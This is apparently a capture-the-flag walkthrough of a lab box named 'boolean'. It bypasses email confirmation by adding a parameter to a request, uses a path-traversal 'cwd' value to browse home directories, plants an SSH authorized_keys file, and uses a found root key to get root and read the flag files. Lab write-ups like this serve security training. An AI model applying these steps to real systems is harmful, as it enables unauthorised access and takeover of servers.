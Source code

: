 `---------------------Starting Full Scan------------------------`

`PORT      STATE SERVICE`
`22/tcp    open  ssh`
`80/tcp    open  http`
`33017/tcp open  unknown`

Check out port 80

![[Pasted image 20240208155728.png]]

No weak passwords on this one and no quick exploits on Google
Create an account

![[Pasted image 20240208155924.png]]

What happens if we try to login anyway
![[Pasted image 20240208160010.png]]

What if we try to change the email address 

![[Pasted image 20240208160042.png]]

If we check these requests out in Burp, one is slightly different

![[Pasted image 20240208160142.png]]

If we URL decode the method parameter from it

![[Pasted image 20240208160314.png]]
`_method=patch&authenticity_token=Zp9LBogX6hrLmSdn9W4SiZqF6uVZMVVhJMF1RjoJFPo1FTauKWME8uI13tkyHj2beomu6qIoeglbvxP_kxymqw&user[email]=testing123@testing.com&commit=Change email`

If we send this request, in the response we see a confirmation parameter.

![[Pasted image 20240208160429.png]]

I wonder if we can manipulate this. Right click the request and copy it as a curl command.
Paste it into terminal and add this (like the user[email] parameter)

![[Pasted image 20240208160628.png]]

Send it - response looks good

`HTTP/1.1 200 OK`
`X-Frame-Options: SAMEORIGIN`
`X-XSS-Protection: 1; mode=block`
`X-Content-Type-Options: nosniff`
`X-Download-Options: noopen`
`X-Permitted-Cross-Domain-Policies: none`
`Referrer-Policy: strict-origin-when-cross-origin`
`Content-Type: application/json; charset=utf-8`
`Vary: Accept`
`ETag: W/"ba3d1526cd3a164e9967c8487f86c92c"`
`Cache-Control: max-age=0, private, must-revalidate`
`Set-Cookie: _boolean_session=Z3HVENjbWmUT0B9mJ6GaHGJF3JzzlyLGGu8qA8%2Fb8yiurg%2F4mdk0gz4m%2BIDjdKpnAcPeSItl0nI2evcMbrMZp6yp9apjygEvTntHJM69H1MiTaGBGxP%2F63hBuLUhnjzi8RAqEsjgjKu1EJHxYSzw8xNTG9ol%2BSgFhQMKAxfygYV25tH58YMgrt7ZRxpqu5AV%2BEEz07pWl9KEnjS7PeNvY4fivS8Jj1uMiYTCXTuTliL92oxEig3chUq2Nu%2BCQKm4h6NSccsBt4Pv8Q9GJaTvkpaKwILnL%2BkPJnRyw2Y9Mv8Do1hjInCYtg%3D%3D--ug2FlXnJAY%2BO%2B2VG--cRdor8E61B6VWU4lcBomhQ%3D%3D; path=/; HttpOnly; SameSite=Lax`
`X-Request-Id: fb6d70ba-e641-4556-8cfc-c78276d3e0c2`
`X-Runtime: 0.028029`
`Connection: close`
`Transfer-Encoding: chunked`

`{"email":"testing123@testing.com","confirmed":true,"id":2,"username":"testing","created_at":"2024-02-08T20:58:54.361Z","updated_at":"2024-02-08T21:08:12.085Z"}` 

Now it lets us login and get to the filemanager

If we upload a file, we can't get it to execute but we can see in the URL it has cwd for current directory. Let's try to move directories.

![[Pasted image 20240208161253.png]]

Looks like this is working. Go to the home directory and find our user.

http://192.168.190.231/?cwd=../../../../../../../../../../home

![[Pasted image 20240208161358.png]]

It lets us into this folder so the webserver is running as root or this user.
![[Pasted image 20240208161440.png]]

In the .ssh folder there is a keys folder with some SSH keys. None of them seem to work though.

Let's generate our own authorized_keys file and see if we can upload that in .ssh

![[Pasted image 20240208161545.png]]

This works and we can now ssh in as remi

![[Pasted image 20240208161706.png]]

Let's check that root private key and see if it works with the loopback address

`remi@boolean:~/.ssh/keys$ ssh -i root root@127.0.0.1`
`Received disconnect from 127.0.0.1 port 22:2: Too many authentication failures`
`Disconnected from 127.0.0.1 port 22`
`remi@boolean:~/.ssh/keys$` 

So the key might still be good but we're getting Too many auth failures. There must be a way to fix this.

Try the IdentitiesOnly option 
`ssh -i root -o IdentitiesOnly=yes root@127.0.0.1`

This works and we get root

`remi@boolean:~/.ssh/keys$ ssh -i root -o IdentitiesOnly=yes root@127.0.0.1`
`Linux boolean 4.19.0-21-amd64 #1 SMP Debian 4.19.249-2 (2022-06-30) x86_64`

`The programs included with the Debian GNU/Linux system are free software;`
`the exact distribution terms for each program are described in the`
`individual files in /usr/share/doc/*/copyright.`

`Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent`
`permitted by applicable law.`
`root@boolean:~# cat /root/proof.txt`
`16c42fd4894d61767502b85a2be756b5`
`root@boolean:~# cd /home/`
`root@boolean:/home# ls`
`remi`
`root@boolean:/home# cd remi`
`root@boolean:/home/remi# ls`
`boolean  local.txt`
`root@boolean:/home/remi# cat local.txt`
`e07f7a23ff8007bbe95ca96969c84358`
`root@boolean:/home/remi#` 

